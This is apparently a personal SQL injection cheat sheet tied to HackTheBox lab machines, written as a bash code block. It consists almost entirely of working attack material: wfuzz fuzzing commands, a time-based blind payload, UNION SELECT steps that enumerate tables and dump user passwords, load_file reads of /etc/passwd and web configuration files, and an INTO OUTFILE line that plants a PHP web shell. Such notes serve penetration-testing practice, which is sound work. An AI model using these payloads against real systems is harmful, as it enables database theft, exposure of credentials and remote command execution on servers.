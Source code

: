 ```bash
# sqli fuzz
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 http://10.129.227.147/room.php?cod=FUZZ

## wfuzz s param, waf block
 wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt  -u http://megacorp.local/api/getColleagues -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'  -s 3 -p 127.0.0.1:8080:HTTP

## common list /usr/share/seclists/Fuzzing/SQLi/
Generic-SQLi.txt
Generic-BlindSQLi.fuzzdb.txt
quick-SQLi.txt
seclists/Fuzzing/special-chars.txt

# common payload
1 or benchmark(10000000,MD5(1))#
?cod=100 UNION SELECT 1;-- -

# exploit
## group_concat(); htb jarvis

## obtain data manually, photoalbum.php?id=1'
## find the number of columns
photoalbum.php?id=1 order by 8

## Find space to output db
?id=1 union select 1,2,3,4,5,6,7,8

## Get username of the sql-user
?id=1 union select 1,2,3,4,user(),6,7,8

## Get version
?id=1 union select 1,2,3,4,version(),6,7,8

## Get all tables
?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

## Get all columns from a specific table
?id=1 union select 1,2,3, column_name ,5,6,7,8 from information_schema.columns where table_name=‘users’
?id=1 union select 1,2,3, group_concat(column_name) ,5,6,7,8 from information_schema.columns() where table_name=‘users’
.. 1,2,3, group_concat(user_id, 0x3a, first_name, 0x3a, last_name, 0x3a, email, 0x3a, pass, 0x3a, user_level) ,5,6,7,8 from users

# view files
' union select 1,2,3, load_file(‘/etc/passwd’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/login.php’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/includes/config.inc.php’) ,5,6,7,8 -- -
' union select 1,2,3, load_file(‘/var/www/mysqli_connect.php’) ,5,6,7,8 -- -    

# upload files
' union select 1,2,3, 'this is a test message' ,5,6,7,8 into outfile '/var/www/test'-- -    
' union select 1,2,3, load_file('/var/www/test') ,5,6,7,8 -- -    
' union select null,null,null, "<?php system($_GET['cmd']) ?>" ,5,6,7,8 into outfile '/var/www/shell.php' -- -    
' union select null,null,null, load_file('/var/www/shell.php') ,5,6,7,8 -- -

```
